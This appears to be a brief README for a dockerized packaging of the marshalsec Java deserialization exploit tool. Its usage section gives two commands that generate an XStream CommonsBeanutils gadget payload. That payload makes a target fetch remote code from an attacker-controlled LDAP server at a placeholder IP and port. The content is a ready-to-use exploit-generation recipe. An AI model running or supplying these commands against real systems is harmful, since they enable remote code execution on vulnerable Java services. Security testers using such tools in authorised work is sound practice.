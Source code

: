 # sectools

## java
### deserialize
#### marshalsec
dockerized marshalsec
https://github.com/mbechler/marshalsec

usage:
```
docker run -ti --rm ssst0n3/sectools:marshalsec marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml
```

same as

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml
```